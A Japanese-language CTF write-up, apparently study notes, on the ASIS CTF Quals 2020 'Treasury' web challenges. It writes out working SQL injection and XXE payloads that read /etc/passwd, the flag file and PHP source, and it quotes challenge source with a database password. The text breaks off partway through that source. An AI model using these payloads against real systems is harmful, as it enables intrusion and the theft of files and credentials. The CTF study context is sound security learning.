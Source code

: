 `a' union select 0,0,0 #`  
## Union query / XXE (ASIS CTF Quals 2020 Treasury #1 #2)
https://github.com/saw-your-packet/ctfs/blob/master/ASIS%20CTF%20Quals%202020/Write-ups.md#treasury-1  
https://ctftime.org/writeup/24592  
https://ctftime.org/writeup/22126  
- **entrypoint**  
本の抜粋(excerpt)を読めるサイトがある。  
BurpのSpiderで`books.php?type=excerpt&id=1`をしている箇所があり、これが抜粋を読み込んでいる箇所だと推測。  
`id=4' or id='3`で3のコンテンツが返ったのでSQLInjection可能とわかる！(4は存在しない)  
`null' union select 'null`を入力すると`simplexml_load_string()`のerrorとなり、`null`をXMLとして解釈しようとしてエラーが発生しているとわかる。  
ここから、XXEの脆弱性もあることがわかる。  
本の抜粋のXMLデータであるはずなので以下のようになっていると推測するらしい？？  
これで`' UNION SELECT '<root><excerpt>TESTING HERE</excerpt></root>`とするとTESTING HEREが返ったのでXMLはこの構文でいいらしい。  
```xml
<root>
  <excerpt>TESTING HERE</excerpt>
</root>
```
  
以下で`/etc/passwd`が返るらしい。  
```txt
4' union select '<!DOCTYPE excerpt [<!ENTITY test SYSTEM "file:///etc/passwd">]><root><id>4</id><excerpt>&test;</excerpt></root>
```
以下で`index.php`が返る。`<`とかが入っているとXML構文エラーとなってしまうため、Base64エンコードする。  
```txt
4' union select '<!DOCTYPE excerpt [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=books.php">]><root><id>4</id><excerpt>&test;</excerpt></root>
```
以下で`ASISCTF`というデータベース名が返った。  
```txt
4' union select concat('<root><id>4</id><excerpt>',database(),'</excerpt></root>') where 'a'='a
```
以下でbooksテーブルのinfoカラムの値を表示できる。`REPLACE`で`<`が構文エラーしないように`?`に変更している。  
これで`#1`のフラグはゲットできるらしい。  
```txt
4' union select concat('<root><id>4</id><excerpt>',REPLACE((select group_concat(0x7c,info,0x7c) from books),'<','?'),'</excerpt></root>') where ''='
```
これで`#2`のフラグをゲットできるらしい。  
```txt
4' union select '<!DOCTYPE excerpt [<!ENTITY test SYSTEM "file:///flag">]><root><id>4</id><excerpt>&test;</excerpt></root>
```
PHPソースは以下のようだったらしい。  
```php
<?php
sleep(1);

function connect_to_database() {
  $link = mysqli_connect("web4-mariadb", "ctfuser", "dhY#OThsdivojq2", "ASISCTF");
  if (!$link) {
    echo "Error: Unable to connect to DB.";
    exit;
  }
  return $link;
}

function fetch_books($condition) {
  $link = connect_to_database();
  if ($condition === "") {
    $where_condition = "";
```